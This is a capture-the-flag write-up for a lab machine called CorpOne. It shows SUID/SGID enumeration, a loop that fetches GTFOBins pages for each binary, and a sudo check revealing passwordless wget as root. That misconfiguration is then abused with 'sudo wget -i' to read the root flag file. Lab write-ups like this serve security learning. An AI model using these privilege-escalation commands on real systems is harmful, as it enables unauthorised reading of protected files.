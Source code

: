 With the keys we have found, we can log in as *jessie* for [[PORT 22]]. 

## THINGS ABOUT JESSIE

- He uses Firefox
- jessie has a .local folder
- jessie has a .gnupg folder
- jessie has a .config folder
- jessie has a .cache folder
- Has files related to the X11
- Has a .profile file
- Has a examples.desktop
- Has .dmrc file 
- Has files for .bashrc and .bash_logout

## IDEAS AND OPTIONS

- Research on jessie's files, might contain useful information.
- Research on file misconfigurations 
	- SUID & SGUID 
	 ```bash                                     
	$find / -type f -perm /ug+s -exec ls -la {} + 2>/dev/null
	
	-rwsr-xr-x 1 root root        30112 iul 12  2016 /bin/fusermount
	-rwsr-xr-x 1 root root        34812 oct 10  2019 /bin/mount
	-rwsr-xr-x 1 root root        38932 mai  7  2014 /bin/ping
	-rwsr-xr-x 1 root root        43316 mai  7  2014 /bin/ping6
	-rwsr-xr-x 1 root root        38900 mar 26  2019 /bin/su
	-rwsr-xr-x 1 root root        26492 oct 10  2019 /bin/umount
	-rwxr-sr-x 1 root shadow      38684 apr  9  2018 /sbin/pam_extrausers_chkpwd
	-rwxr-sr-x 1 root shadow      38664 apr  9  2018 /sbin/unix_chkpwd
	-rwxr-sr-x 1 root tty          9788 mar  1  2016 /usr/bin/bsd-write
	-rwxr-sr-x 1 root shadow      61276 mar 26  2019 /usr/bin/chage
	-rwsr-xr-x 1 root root        74280 mar 26  2019 /usr/bin/chfn
	-rwsr-xr-x 1 root root        39560 mar 26  2019 /usr/bin/chsh
	-rwxr-sr-x 1 root crontab     38996 apr  6  2016 /usr/bin/crontab
	-rwxr-sr-x 1 root shadow      22000 mar 26  2019 /usr/bin/expiry
	-rwsr-xr-x 1 root root        78012 mar 26  2019 /usr/bin/gpasswd
	-rwxr-sr-x 1 root mlocate     34452 nov 18  2014 /usr/bin/mlocate
	-rwsr-xr-x 1 root root        34680 mar 26  2019 /usr/bin/newgrp
	-rwsr-xr-x 1 root root        53128 mar 26  2019 /usr/bin/passwd
	-rwsr-xr-x 1 root root        18216 mar 27  2019 /usr/bin/pkexec
	-rwxr-sr-x 1 root ssh        431632 mar  4  2019 /usr/bin/ssh-agent
	-rwsr-xr-x 1 root root       159852 oct 11  2019 /usr/bin/sudo
	-rwxr-sr-x 1 root tty         26356 oct 10  2019 /usr/bin/wall
	-rwsr-xr-- 1 root messagebus  46436 iun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
	-rwsr-xr-x 1 root root         5480 mar 27  2017 /usr/lib/eject/dmcrypt-get-device
	-rwxr-sr-x 1 root mail        13680 mai 28  2019 /usr/lib/evolution/camel-lock-helper-1.2
	-rwsr-xr-x 1 root root        13840 mar 18  2017 /usr/lib/i386-linux-gnu/oxide-qt/chrome-sandbox
	-rwxr-sr-x 1 root utmp         5480 mar 11  2016 /usr/lib/i386-linux-gnu/utempter/utempter
	-rwsr-xr-x 1 root root       513528 mar  4  2019 /usr/lib/openssh/ssh-keysign
	-rwsr-xr-x 1 root root        13960 mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
	-rwsr-sr-x 1 root root       113228 aug 20  2019 /usr/lib/snapd/snap-confine
	-rwsr-sr-x 1 root root         9772 oct 25  2018 /usr/lib/xorg/Xorg.wrap
	-rwsr-xr-- 1 root dip        396068 iun 12  2018 /usr/sbin/pppd
	
	cd files ; cat ../suid_sgid  | awk '{print $NF}' | while IFS= read -r line; do LINE=$(basename "${line}") ; wget https://gtfobins.github.io/gtfobins/${LINE} || touch NOT_FOUND_${LINE}; done  ; for file in $(ls) ; do if grep -q "suid" $file ; then echo "$file has suid" ; fi ; done  ; cd .. ;
	
	   ```

While doing this i noticed that jessie is in sudo
```bash
jessie@CorpOne:~$ id
uid=1000(jessie) gid=1000(jessie) groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

By seeing which commands it is allowed to run
```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

And it turns out it is a gtfo bin, (i did not know how to get the shell but by guessing the name of the file)
```bash
jessie@CorpOne:~$ sudo wget -i /root/root_flag.txt
--2024-04-26 20:23:15--  http://b1b968b37519ad1daa6408188649263d/
Resolving b1b968b37519ad1daa6408188649263d (b1b968b37519ad1daa6408188649263d)... failed: Name or service not known.
wget: unable to resolve host address ‘b1b968b37519ad1daa6408188649263d’

```

